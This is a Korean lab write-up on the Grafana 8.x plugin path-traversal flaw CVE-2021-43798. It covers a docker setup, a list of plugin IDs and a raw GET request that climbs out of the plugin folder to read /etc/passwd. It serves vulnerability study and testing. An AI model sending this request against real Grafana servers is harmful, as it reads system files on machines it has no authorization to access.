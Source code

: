 # Grafana 8.x 플러그인 모듈 Path Traversal (CVE-2021-43798)

## Grafana 란?
Grafana는 다중 플랫폼 오픈 소스 분석 및 인터랙티브 시각화 웹 애플리케이션입니다.

## 취약점 개요
2021년 12월, 한 트위터 사용자가 0day 취약점을 공개했습니다. 인증되지 않은 공격자는 이 취약점을 이용하여 Grafana 8.x 버전에서 조작된 URL을 통해 웹 경로를 상위 디렉토리로 이동하여 임의의 파일을 다운로드할 수 있습니다.

## 취약한 환경 구성

다음 명령어를 실행하여 Grafana 서버 8.2.6 버전을 시작합니다:

```
docker compose up -d
```

서버가 시작된 후 `http://your-ip:3000` 주소로 로그인 페이지에 접속할 수 있습니다. 이 취약점을 이용하는 데는 별도의 자격 증명이 필요하지 않습니다.

## 익스플로잇 (Exploit)

이 취약점은 플러그인 폴더 내의 정적 파일을 제공하는 플러그인 모듈로 인해 발생합니다. 하지만 경로 검증 부족으로 인해 공격자는 `../` 를 사용하여 플러그인 폴더에서 상위 폴더로 이동하여 임의의 파일을 다운로드할 수 있습니다.

취약점을 이용하려면 유효한 플러그인 ID를 알아야 합니다. 예를 들어 `alertlist` 와 같은 ID가 있습니다. 다음은 일반적인 플러그인 ID 목록입니다:

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

`/etc/passwd` 파일을 가져오려면 다음 요청을 보냅니다 (`alertlist`는 다른 유효한 플러그인 ID로 대체할 수 있습니다):

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

## 취약점 확인

1. 도커 컨테이너 시작
![취약점 확인](1.png)
2. Grafana 서비스 동작 확인
![Grafana 서비스 동작 확인](2.png)
3. 취약점 실행
![Postman 결과](3.png)